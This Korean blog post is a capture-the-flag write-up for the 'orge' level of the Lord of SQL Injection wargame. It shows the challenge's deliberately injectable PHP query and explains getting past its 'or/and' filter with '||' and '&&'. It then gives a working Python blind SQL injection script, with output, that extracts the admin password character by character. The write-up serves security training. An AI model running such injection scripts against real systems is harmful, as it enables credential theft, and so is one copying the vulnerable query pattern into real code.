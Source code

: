 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orge 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `orge` 이다.  

이 전 문제인 `darkelf`와 Blind SQL Injection 이었던 `orc` 문제가 섞인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`or`와 `and` 문자를 사용할 수 없어 `or` 대신에 `||`, `and` 대신에 `&&`를 사용해야 한다.  

또한 입력한 `pw`와 디비에 저장된 `pw`의 값이 같아야 하기 때문에 `Blind SQL Injection`으로 문제를 풀어야 한다.  

그런데 첫 번째 쿼리와 두 번째 쿼리가 살짝 다르다.  

```php
$query1 = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"

$query2 = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"
```

첫 번째 쿼리에서는 `id='guest'`로 되어 있고 두 번째 쿼리에서는 `id='admin'`으로 되어 있다.  

그런데 문제를 풀기 위한 조건은 `admin의 정확한 pw`를 알아내야 하는 것이므로, 첫 번째 쿼리를 통해 `admin`의 `pw`를 알아내고, 두 번째 쿼리를 통해 문제를 풀면 된다.  

`admin`의 `pw`를 알아내기 위한 쿼리 스트링은 다음과 같다.  

```
?pw=1' || id='admin' && length(pw)=1#
```

그런데 `&&`와 `#`은 그냥 입력하면 안되고 `URL Encoding`을 해 넘겨주어야 한다.  

즉, 수정하면 다음과 같다.  

```
?pw=1' || id='admin' %26%26 length(pw)=1%23
```

위의 쿼리 스트링을 토대로 `orc` 문제를 참고 해 아래와 같이 python 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orge_bad2f25db233a7542be75844e314e9f3.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id='admin' %26%26 length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id='admin' %26%26 substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행 시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 7B
[+] Found 3 : 7B7
[+] Found 4 : 7B75
[+] Found 5 : 7B751
[+] Found 6 : 7B751A
[+] Found 7 : 7B751AE
[+] Found 8 : 7B751AEC
[+] Found password :  7B751AEC
[+] End
```

이번에도 역시 `7B751AEC`에서 알파벳을 소문자로 바꿔주어야 문제가 풀렸다.  

```
?pw=7b751aec
```

위와 같이 입력하면 문제를 풀 수 있다.  

```php
---------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw='7b751aec'
---------------------------------------------------------------------

ORGE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`ORGE Clear!!`